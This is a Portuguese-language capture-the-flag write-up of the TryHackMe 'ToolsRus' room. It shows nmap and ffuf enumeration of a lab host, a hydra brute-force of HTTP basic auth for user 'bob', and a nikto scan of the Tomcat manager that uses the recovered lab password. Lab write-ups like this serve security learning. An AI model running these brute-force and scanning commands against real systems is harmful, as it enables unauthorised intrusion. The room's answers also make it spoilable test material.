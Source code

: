 ```yaml
---
title: 'TryHackMe: ToolsRus'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Hydra, Nikto, Nmap, ffuf, Metasploit]
image:
  path: assets/images/tryhackme/toolsrus/room.png
---
```


Meu alvo é http://10.10.42.84/

Entrando no navegador temos uma mensagem dizendo que tem outras partes do site funcionando...

![alt text](assets/images/tryhackme/toolsrus/image1.png)



Ok, vamos começar com o clássico nmap rápido e em todas as portas:


```
nmap -p- -T4 <ip_alvo>

Nmap scan report for 10.10.168.149
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13

Nmap done: 1 IP address (1 host up) scanned in 623.11 seconds

```

Eu adoraria rodar dirbuster como pede a atividade porém ele é tão lento que eu desisti. Estou rodando ffuf.

```

ffuf -u http://10.10.168.149/FUZZ -w /usr/share/wordlists/dirb/common.txt       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.168.149/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 168, Words: 16, Lines: 5, Duration: 211ms]
.htpasswd               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 215ms]
.htaccess               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 215ms]
.hta                    [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 216ms]
guidelines              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 209ms]
index.html              [Status: 200, Size: 168, Words: 16, Lines: 5, Duration: 210ms]
protected               [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 211ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 244ms]
:: Progress: [4614/4614] :: Job [1/1] :: 191 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
                                                                                             

```
Com isso já temos a primeira, segunda e terceira resposta.

Como eu quero descobrir a conta do bob, vou rodar um hydra.

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -f 10.10.168.149 http-get /protected -t 4 -V
```

Com isso descobrimos a senha.

A pergunta da outra porta que serve serviço web pode ser resolvida com a saída do nmap.

Colocando o serviço no browser conseguimos ver a versão e responder mais outra pergunta.


Vamos escanear usando nikto.
```
nikto -h http://10.10.168.149:1234/manager/html -id bob:bubbles -o resultado.txt
```